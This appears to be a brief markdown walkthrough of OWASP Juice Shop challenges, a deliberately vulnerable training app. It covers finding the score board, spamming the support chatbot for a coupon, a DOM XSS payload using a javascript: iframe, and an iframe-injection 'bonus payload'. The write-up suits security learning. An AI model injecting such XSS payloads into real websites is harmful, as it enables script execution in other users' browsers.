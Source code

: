 # OWASP Juice Shop<br>

Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br>

Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupong <br>
<br>
DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br>

Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br>

